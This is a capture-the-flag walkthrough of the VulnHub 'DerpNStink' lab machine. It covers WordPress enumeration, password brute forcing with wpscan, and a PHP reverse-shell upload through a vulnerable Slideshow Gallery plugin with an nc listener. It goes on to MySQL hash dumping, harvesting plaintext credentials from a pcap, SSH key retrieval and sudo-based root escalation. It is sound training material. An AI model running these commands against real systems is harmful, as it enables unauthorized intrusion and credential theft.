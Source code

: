 ```yaml
---
title: "DerpNStink"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-05-06 04:57:39 +05:30
categories: [Writeups, VulnHub]
img_path: /assets/img/writeups/derpnstink/
tags: [VulnHub, WordPress, MySQL]
render_with_liquid: false
---
```


## DerpNStink VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- DerpNStink IP: `10.0.2.8` 

#### Nmap

- `nmap -Pn -sS -p- -A 10.0.2.8`

  ```
  10.0.2.8:21/tcp => vsftpd 3.0.2
  10.0.2.8:22/tcp => OpenSSH 6.6.1p1 
  10.0.2.8:80/tcp => Apache httpd 2.4.7 
  ```

- In HTML source code: 
```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

#### GoBuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.8 -t 60 -x txt
```

```
/weblog        (Status:301) [Size:304] [http://10.0.2.8/weblog/]
/php           (Status:301) [Size:301] [http://10.0.2.8/php/]   
/css           (Status:301) [Size:301] [http://10.0.2.8/css/]   
/js            (Status:301) [Size:300] [http://10.0.2.8/js/]    
/javascript    (Status:301) [Size:308] [http://10.0.2.8/javascript/]
/robots.txt    (Status:200) [Size:53]                                   
/temporary     (Status:301) [Size:307] [http://10.0.2.8/temporary/] 
/server-status (Status:403) [Size:288]
```
- `/weblog` redirected to `http://derpnstink.local/weblog`. So we will need to add it to the hosts file.
- `echo 10.0.2.8 derpnstink.local | tee -a /etc/hosts`
- Then visit `http://derpnstink.local/weblog`.
- Its a WordPress blog. 

---

### Exploitation

```
wpscan --url http://derpnstink.local/weblog -e at -e ap -e u
```

```
WordPress theme in use: twentysixteen
Location: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/
Last Updated: 2021-03-09T00:00:00.000Z
Readme: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/readme.txt
The version is out of date, the latest version is 2.4

Plugin(s) Identified:

slideshow-gallery
Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
Last Updated: 2019-07-12T13:09:00.000Z
The version is out of date, the latest version is 1.6.12
Found By: Urls In Homepage (Passive Detection)
Version: 1.4.6 (100% confidence)
Found By: Readme - Stable Tag (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

User(s) Identified:
- admin
```

- We got a username: `admin`. Now to brute force for password:

```
wpscan --url http://derpnstink.local/weblog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 60
```

```
Valid Combinations Found:
Username: admin, Password: admin
```

- Honestly, I should have just tried `admin:admin` before even running `wpscan` but, oh well.
- Go to `/weblog/wp-admin/` and log in with `admin` : `admin`
- Go to Slideshow, click on one of the available ones, in there, under Choose Image option, select a file to upload. Choose PHP reverse shell file (with IP and port changed to connect back to our Kali VM) and it will be accepted without even changing extension. 
- Or you can use this exploit to upload the shell since we already have user credentials: [WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload](https://www.exploit-db.com/exploits/34681).

```python
python wp_slideshow_exploit.py -t http://derpnstink.local/weblog -u admin -p admin -f php-shell.php
```

- Start a netcat listener: `nc -lvnp 1234`
- Then go back to Slideshow and click on the slideshow that has PHP reverse shell file and we will get a reverse shell as `www-data`. 
- `cd /var/www/html/weblog` and `ls -la` 
- We have read access to `wp-config.php` so `cat wp-config.php`

```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```

- `mysql -u root -p` <span class="fat-arrow">=></span> `mysql` 
- `show databases;` 
- `use mysql;` 
- `show tables;` 
- `select * from user;` 
- DerpNStink MySQL Commands:

![DerpNStink MySQL Commands](derpnstink_mysql_commands.png){: w="300" h="400" }
_DerpNStink MySQL Commands_


- Dumping users & passwords from MySQL:

![Dumping Users & Passwords from MySQL](derpnstink_mysql_users_passwords.png){: w="600" h="400" }
_Dumping Users & Passwords from MySQL_

- And we get a few MySQL password hashes. Used [CrackStation](https://crackstation.net/) to crack them:

```
root = E74858DB86EBA20BC33D0AECAE8A8108C56B17FA = mysql
unclestinky = 9B776AFB479B31E8047026F1185E952DD1E530CB = wedgie57
phpmyadmin = 4ACFE3202A5FF5CF467898FC58AAB1D615029441 = admin
```

- Lets try `unclestinky : wedgie57` on user `stinky`. 
- `su stinky` <span class="fat-arrow">=></span> `wedgie57` and it works. 
- There is a `ftp` directory in `/stinky` and if we keep going in, there is a `key.txt` file which has `ssh` key for user `stinky` 

```
/home/stinky/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt
```

- But we can also get it from `/home/stinky/.ssh`
- `cd /home/stinky/.ssh` and start a python server with `python3 -m http.server 5959` and then get the `id_rsa` key from `derpnstink.local:5959/id_rsa` using a browser or via `wget`. 
- `chmod 600 id_rsa` and then log in via `ssh`: 
- `ssh -i id_rsa stinky@10.0.2.8` 
- `cd /home/stinky/Desktop && ls -la` 
- `cat flag.txt` 

```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

- `cd /home/stinky/Documents && ls -la` there is a `derpissues.pcap` file. 
- `strings derpissues.pcap` to get the general idea of traffic recorded. 
- There are a few HTTP POST requests in there without SSL/TLS, thus, unencrypted. So we can start looking at them. Or we can `grep` for the username we already have: `mrderp`. I tried it both ways. 
- `strings derpissues.pcap | grep -n mrderp` 
- This gives 7 results but the first one itself reveals the password that was used while creating the account for `mrderp` and the second one reveals it again when it was used for logging in as `mrderp`. 

```
56710:action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+User
57149:log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- The other method is to filter POST requests and to look for passwords in unencrypted/plain text parameters. 
- So to filter the `strings` results for just those POST requests: 
- `strings derpissues.pcap | grep POST` 
- It lists all the POST requests but we can filter out the others that we don't need and focus only on POST requests made to `/weblog/wp-login.php` 
- `strings derpissues.pcap | grep -A 20 "POST /weblog/wp-login.php"` 
- `grep -A 20` to print the next 20 lines that come after the expected result of `grep`. 
- Now there are only three such POST requests and the username and password payload being sent through them is in plain text. 

```
1: log=unclestinky%40derpnstink.local&pwd=wedgie57&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1c3
2: log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- We already have `stinky`'s or `unclestinky`'s password: `wedgie57` and now we also have `mrderp`'s password: `derpderpderpderpderpderpderp` 
- `su mrderp` <span class="fat-arrow">=></span> `derpderpderpderpderpderpderp` and we are now logged in as `mrderp`! 
- `mrderp` : `derpderpderpderpderpderpderp` 

---

### Privilege Escalation

- `sudo -l` <span class="fat-arrow">=></span> `derpderpderpderpderpderpderp`

```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

- If you `cd /home/mrderp/Desktop/ && ls`, there is a `helpdesk.log` file which has a pastebin link inside: `https://pastebin.com/RzK9WfGw`. This pastebin also tells us the same thing that `sudo -l` says. 
- So back to privilege escalation, there is no `/home/mrderp/binaries/` directory so lets create one. 
- `cd /home/mrderp` and then `mkdir binaries && cd binaries` 
- Then create a bash script (any script/executable will work here) that we can execute with `sudo`. 
- `touch derpy.sh` 
- `echo /bin/bash > derpy.sh` 
- Then `chmod +x derpy.sh` and then execute it with: 
`sudo ./derpy.sh` and we are now `root`! 
- `whoami` <span class="fat-arrow">=></span> `root` 
- `cd /root/Desktop && ls -la` 
- `cat flag.txt` 

```
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```

<!-- ### Possible Kernel Exploit

- `uname -a` 
```
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
- Kernel exploit could be possible. Try kernel exploit later. 
 -->

